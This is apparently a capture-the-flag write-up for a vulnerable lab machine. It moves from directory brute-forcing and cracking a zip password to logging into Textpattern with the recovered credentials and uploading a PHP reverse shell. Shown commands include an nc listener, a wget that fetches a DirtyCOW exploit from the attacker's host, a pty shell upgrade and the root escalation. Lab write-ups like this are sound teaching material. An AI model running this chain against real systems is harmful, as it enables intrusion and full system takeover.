


# Zipfile cracking to Textpattern unrestricted file upload to DirtyCOW

AND ANOTHER ONE!

```
kali@kali:~/work$ nmap -p- target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-08 23:35 MST
Nmap scan report for target (work)
Host is up (0.070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```

These are the worst. Very little attack surface.

Let’s dirbust it.

```
kali@kali:~/work$ gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 283]
/.htaccess            (Status: 403) [Size: 283]
/cgi-bin/             (Status: 403) [Size: 282]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/index.html           (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 287]
/textpattern          (Status: 301) [Size: 306] [--> http://target/textpattern/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Okay, we have a few directories to look at. Robots.txt even gives us a bit of a hint.

```
kali@kali:~/work$ curl http://target/robots.txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

After a LOT of trial and error, we finally hit it with nonstandard wordlists from dirbuster instead of dirb and found something.

```
kali@kali:~/work$ gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer              (Status: 200) [Size: 179]
/spammer.zip          (Status: 200) [Size: 179]
/server-status        (Status: 403) [Size: 287]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

Okay, let’s download ‘spammer.zip’.

```
kali@kali:~/work$ wget http://target/spammer.zip
--2024-11-09 01:16:52--  http://target/spammer.zip
Resolving target (target)... target
Connecting to target (target)|target|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 179 [application/zip]
Saving to: ‘spammer.zip’

spammer.zip                                                100%[========================================================================================================================================>]     179  --.-KB/s    in 0s      

2024-11-09 01:16:53 (7.25 MB/s) - ‘spammer.zip’ saved [179/179]


kali@kali:~/work$ unzip spammer.zip 
Archive:  spammer.zip
[spammer.zip] creds.txt password:
```

Trying to unzip it, we see it’s password protected. Looking on Google, you can crack passwords with a tool called fcrackzip. Let’s try that.

```
kali@kali:~/work$ fcrackzip -u -D -p rockyou.txt spammer.zip 


PASSWORD FOUND!!!!: pw == myspace4
```

Okay, unzipping the file with that password.

```
kali@kali:~/work$ unzip spammer.zip 
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt

kali@kali:~/work$ cat creds.txt 
mayer:lionheart
```

Okay, let’s try to login to http://target/textpattern/textpattern with those creds.



Great, we’re presented with an admin interface and the ability to upload files.

Let’s upload a PHP reverse shell.



Setting up our netcat listener and navigating to ‘http://target/textpattern/files/reverse.php’ gives us shell.

```
kali@kali:~/work$ nc -lnvp 4444                                                                                                                                                                   01:02:29 [56/773]
Listening on 0.0.0.0 4444                                                                                             
Connection received on target 33577                                                                          
id                                                                                                                    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux

```
With our first couple of commands, we see something familiar, kernel 3.2, meaning it’s vulnerable to DirtyCOW, an exploit we rewrote in a previous post. We don’t even have to recompile it as it’s x86_64.

```
cd /tmp
wget http://me:8000/dirtycow
chmod +x dirtycow
```

Before we run this though, we want to upgrade our shell so it’s a little more stable.

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@driftingblues:/tmp$
```

Now we can send it.

```
www-data@driftingblues:/tmp$ ./dirtycow /usr/bin/passwd
./dirtycow /usr/bin/passwd
YOU DIRTY COW!!!
Backing up file...
Starting waitwrite thread...
Starting procselfmem thread...
Starting madvise thread...
Root!
root@driftingblues:/tmp# id
id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

It feels SO good when an exploit you wrote and understand completely executes on the first attempt and gives you root. SO good.
